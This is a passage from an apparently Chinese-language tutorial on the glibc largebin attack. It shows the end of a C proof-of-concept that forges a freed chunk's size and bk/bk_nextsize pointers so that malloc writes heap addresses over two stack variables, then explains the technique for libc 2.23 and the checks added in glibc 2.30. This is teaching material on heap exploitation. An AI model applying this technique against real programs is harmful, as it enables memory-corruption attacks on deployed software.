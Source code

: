 ```bash
    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```

这里我们只介绍各版本中 largebin attack 的效果

#### libc2.23

效果：向任意两个地址写入分别写入一个堆地址

具体利用思路：准备好两个大小不同的 largebin chunk，先将 size 较小的 chunk 放入 largebin 中，较大的放在 unsortedbin 中，改 size 较小的 chunk 的 bk 指针为**目标地址 1-0x10** , bk\_nextsize 为**目标地址 2-0x20**，然后将 size 较大的 chunk 链入 large bin 中，最终效果是使得较大 chunk 的 bk 指针指向目标地值 1-0x10，bk\_nextsize 指针指向目标地址 2-0x20，同时在两个目标地址处写上较大 chunk 的地址，

#### libc2.31

参考：[glibc-2.29 后 large bin attack 原理](https://www.anquanke.com/post/id/189848#h2-1)

更新

glibc2.30 对于 unsortedbin 和 largebin 的检查都更加严格了，unsortedbin attack 直接寿终正寝了，largebin attack 的效果也被腰斩了一半

libc2.30 largebin 新增检查的源码

```bash
if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd)) 
    malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");

if (bck->fd != fwd) 
    malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```
